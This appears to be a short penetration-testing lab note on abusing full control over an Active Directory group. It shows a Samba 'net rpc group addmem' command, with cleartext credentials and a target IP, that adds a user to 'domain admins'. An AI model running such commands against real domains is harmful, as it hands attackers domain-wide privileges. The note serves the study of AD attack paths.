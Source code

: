 Full control of a group allows you to directly modify group membership of the group.

Use samba's net tool to add the user to the target group. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line:

![[Pasted image 20250205203228.png]]

```bash
net rpc group addmem "domain admins" "CT059" -U "INLANEFREIGHT.LOCAL"/"CT059"%"charlie1" -S 172.16.7.3
```